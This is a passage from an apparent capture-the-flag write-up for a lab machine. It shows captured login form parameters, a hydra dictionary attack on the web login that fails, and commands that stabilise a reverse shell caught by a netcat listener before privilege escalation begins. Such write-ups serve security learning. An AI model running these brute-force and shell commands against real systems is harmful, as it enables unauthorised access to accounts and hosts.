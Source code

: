 	![](postData.png)

	```html
	<!-- POST parameters -->
	_csrf=KFFUC4l7C5mnfe_ObzIWX3rMLgs6MTcwNjU1NjQxOTE0Mjk5OTQwOQ&user_name=test&password=test
	```

Now, we can create a wordlist with just the 2 usernames we have found and attempt our attack:

	```bash
	# create a user list
	$ cat userList
	administrator
	cody
	# perform a dictionary attack
	$ hydra -L userList -P /usr/share/wordlists/rockyou.txt 10.10.11.208 http-post-form "/user/login:user_name=^USER^&password=^PASS^:F=Username or password is incorrect." -f
	```

	Unfortunately, nothing comes back!

Next steps:

| **Step** | **Description**                                                                               |
|----------|-----------------------------------------------------------------------------------------------|
| 1        | Stabilize shell                                                                               |
| 2        | Search for privilege escalation paths: SUIDS, kernel/OS version, sensitive data, config files |

## Privilege escalation

Stabilize shell:

```bash
# stabilize shell
svc@busqueda:/var/www/app$ which python3
which python3
/usr/bin/python3
svc@busqueda:/var/www/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
svc@busqueda:/var/www/app$ ^Z
[1]+  Stopped                 nc -lvnp 9001

┌──(kali㉿CSpanias)-[~]
└─$ stty raw -echo; fg
nc -lvnp 9001

svc@busqueda:/var/www/app$
```

Search for privilege escalation paths:
